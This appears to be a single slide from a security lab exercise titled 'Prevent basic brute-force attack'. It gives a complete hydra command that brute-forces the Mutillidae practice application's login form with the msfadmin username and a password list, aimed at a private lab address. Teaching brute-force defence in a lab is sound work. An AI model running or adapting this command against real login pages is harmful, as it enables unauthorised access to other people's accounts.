

4. Prevent basic brute-force attack
Use hydra to perform a simple brute-force attack

sudo hydra -V -f -l msfadmin -P password.txt 192.168.59.200 http-post-form "/mutillidae/index.php?page=login.php:username=^USER^&password=^PASS^:Failure is always an option and this situation proves it"